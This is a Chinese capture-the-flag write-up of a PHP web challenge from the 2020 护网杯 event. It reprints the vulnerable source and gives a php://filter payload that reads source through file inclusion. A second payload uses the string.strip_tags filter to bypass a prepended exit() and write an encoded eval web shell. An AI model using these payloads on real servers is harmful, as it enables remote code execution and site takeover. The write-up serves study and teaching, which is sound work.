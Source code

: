 ```yaml
---
layout: post
title: 2020护网杯writeup
subtitle: writeup
date: 2020-10-24
author: mr_king
header-img: img/
catalog: true
tags: 
    -web
    -writeup
    -学习笔记
---
```


[TOC]

# **Very Easy PHP**

[![BZMhsx.md.png](https://s1.ax1x.com/2020/10/24/BZMhsx.md.png)](https://imgchr.com/i/BZMhsx)

page = main.html

利用PHP伪协议读取源码：

```url
php://filter/read=convert.base64-encode/resource=index.php
```

```php
<?php
error_reporting(0);
$page = isset($_GET['page']) ? $_GET['page'] : 'main.html';
if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    header('location:index.php?page=main.html');
}
// You may want to see 7fa3b767c460b54a2be4d49030b349c7.php
?>
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Home</title>
    <link href="css/bootstrap.css" rel="stylesheet" type="text/css" media="all" />
    <!-- Custom Theme files -->
    <script src="js/jquery.min.js"></script>
    <!--theme-style-->
    <link href="css/style.css" rel="stylesheet" type="text/css" media="all" />
    <!--//theme-style-->
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <meta name="keywords" content="" />
    <script type="application/x-javascript">
        addEventListener("load", function() {
            setTimeout(hideURLbar, 0);
        }, false);

        function hideURLbar() {
            window.scrollTo(0, 1);
        }
    </script>

    <link href='http://fonts.googleapis.com/css?family=Muli:400,300' rel='stylesheet' type='text/css'>
    <link href='http://fonts.googleapis.com/css?family=Oswald' rel='stylesheet' type='text/css'>
    <!-- animation-effect -->
    <link href="css/animate.min.css" rel="stylesheet">
    <script src="js/wow.min.js"></script>
    <script>
        new WOW().init();
    </script>
    <!-- //animation-effect -->

</head>

<body>
    <?php include $page; ?>
</body>

</html>
```

在源码提示中，可以看到访问"7fa3b767c460b54a2be4d49030b349c7.php"



![image-20201024180615700](C:\Users\Mr.King\AppData\Roaming\Typora\typora-user-images\image-20201024180615700.png)

```php
<?php
error_reporting(0);
$sandbox = '/var/www/html/sandbox/' . md5($_SERVER['REMOTE_ADDR']);
echo "Here is your sandbox: ". md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if (isset($_GET['content'])) {
    $content = $_GET['content'];
    if (preg_match('/iconv|UCS|UTF|rot|quoted|base64|%|toupper|tolower|dechunk|\.\./i', $content))
        die('hacker');
    if (file_exists($content))
        require_once($content);
    file_put_contents($content, '<?php exit();' . $content);
}
```

需要绕过 最后一句$content '<?php exit();'.$content 防止代码退出

通过

 ```php
strip_tags() #函数剥去字符串中的 HTML、XML 以及 PHP 的标签。
strip_tag #为一个过滤器，可以配合strip_tag使用

payload：php://filter/write=string.strip_tag/?>D9waHAgZXZhbCgkX1JFUVVFU1RbJ0EnXSk7cGhwaW5mbygpOw<?111/resource=2.php
    
 ```

